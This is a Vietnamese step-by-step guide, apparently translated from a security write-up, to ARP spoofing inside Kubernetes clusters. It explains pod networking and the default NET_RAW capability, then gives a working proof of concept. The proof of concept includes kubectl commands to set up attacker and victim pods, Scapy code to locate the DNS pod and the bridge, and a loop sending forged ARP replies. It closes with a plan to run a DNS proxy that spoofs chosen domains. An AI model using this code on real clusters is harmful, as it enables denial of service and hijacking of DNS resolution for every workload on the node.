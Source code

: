 Để dịch và tổng hợp bài viết này thành các bước cụ thể giúp thực hiện tấn công ARP spoofing trên môi trường Kubernetes, chúng ta sẽ chia thành từng phần chi tiết như sau:

1. Hiểu về Mạng Nội Bộ của Kubernetes
Trong Kubernetes, việc giao tiếp giữa các pod trên cùng một node sử dụng một cầu nối mạng gọi là cbr0, cho phép các gói tin di chuyển giữa các pod.
Mỗi node có một pod DNS (ví dụ: CoreDNS) hoạt động như máy chủ DNS của cụm. Mọi yêu cầu DNS từ các pod trong cụm đều đi qua pod này để được giải quyết.
Địa chỉ IP DNS mà pod sử dụng nằm trong file /etc/resolv.conf, thường là IP của dịch vụ kube-dns, ví dụ: 10.96.0.10.
Khi một pod yêu cầu DNS, yêu cầu sẽ được chuyển qua iptables DNAT đến đúng pod DNS thực sự.
2. Tấn công Spoofing ARP
2.1. Lợi dụng quyền NET_RAW
Các pod trong Kubernetes mặc định có quyền NET_RAW, cho phép tạo và xử lý các gói tin thô, bao gồm các gói ARP và DNS.
NET_RAW cho phép kẻ tấn công thực hiện các cuộc tấn công liên quan đến mạng như ARP spoofing, giúp giả mạo địa chỉ IP và đánh lừa các thiết bị mạng.
2.2. Tấn công ARP Spoofing
ARP spoofing là kỹ thuật giả mạo địa chỉ MAC để đánh lừa mạng rằng kẻ tấn công sở hữu địa chỉ IP hợp lệ. Điều này cho phép kẻ tấn công chuyển hướng lưu lượng mạng đến hệ thống của mình.
Khi các gói DNS từ các pod đến pod DNS qua cầu cbr0, kẻ tấn công có thể sử dụng ARP spoofing để giả mạo làm máy chủ DNS và điều khiển việc giải quyết DNS của cả cụm.
3. Thực hiện Proof-of-Concept
3.1. Tạo hai pod
Tạo một pod "hacker" và một pod "victim" để mô phỏng môi trường tấn công:
```bash
Copy code
kubectl create -f ./pods/
```
3.2. Sử dụng Scapy để lấy IP thực của pod DNS
Kẻ tấn công cần tìm ra địa chỉ MAC và IP của pod DNS thật bằng cách gửi yêu cầu DNS đến IP dịch vụ kube-dns:

```python
Copy code
dns_pod_mac = srp1(Ether() / IP(dst=kubedns_vip) / UDP(dport=53) / DNS(rd=1,qd=DNSQR())).src
```

Sau đó, sử dụng ARP query để tìm ra IP thực của pod DNS:

```python
Copy code
ans, unans = srp(Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(pdst="{}/24".format(my_ip)), timeout=4)
dns_pod_ip = [a[1][ARP].psrc for a in ans if a[1].src == dns_pod_mac][0]
```
3.3. Lấy địa chỉ MAC và IP của cầu cbr0
Kẻ tấn công sử dụng Scapy để lấy địa chỉ MAC và IP của cầu cbr0:

```python
Copy code
res = srp1(Ether() / IP(dst="8.8.8.8", ttl=1) / ICMP())
cbr0_mac, cbr0_ip = res[Ether].src, res[IP].src
```
3.4. Gửi các gói ARP giả mạo
Kẻ tấn công gửi các gói ARP giả mạo liên tục đến cầu cbr0, tuyên bố rằng họ sở hữu địa chỉ IP của pod DNS:
python
Copy code
while True:
    send(ARP(op=2, pdst=cbr0_ip, psrc=dns_pod_ip, hwdst=cbr0_mac))
3.5. Kiểm tra kết quả tấn công
Sau khi thực hiện tấn công ARP spoofing, kẻ tấn công có thể DOS quá trình giải quyết DNS. Từ pod victim, khi thực hiện lệnh nslookup, sẽ nhận được lỗi vì không thể kết nối đến DNS hợp lệ:

```bash
Copy code
nslookup example.com
;; reply from unexpected source...
```

4. Kết luận
Sau khi tấn công thành công, kẻ tấn công có thể cài đặt một máy chủ DNS proxy trong pod của mình để chuyển tiếp tất cả lưu lượng DNS đến CoreDNS thực, ngoại trừ các tên miền mà họ muốn giả mạo.
Tóm tắt các bước:

Hiểu về cấu trúc mạng của Kubernetes, đặc biệt là giao tiếp pod-to-pod qua cầu cbr0.
Lợi dụng quyền NET_RAW để thực hiện tấn công ARP spoofing.
Thiết lập môi trường tấn công với pod hacker và victim.
Sử dụng Scapy để thu thập thông tin về pod DNS và cầu cbr0.
Gửi các gói ARP giả mạo để chiếm quyền điều khiển quá trình giải quyết DNS.
Chạy DNS proxy để kiểm soát hoàn toàn việc giải quyết DNS trong cụm.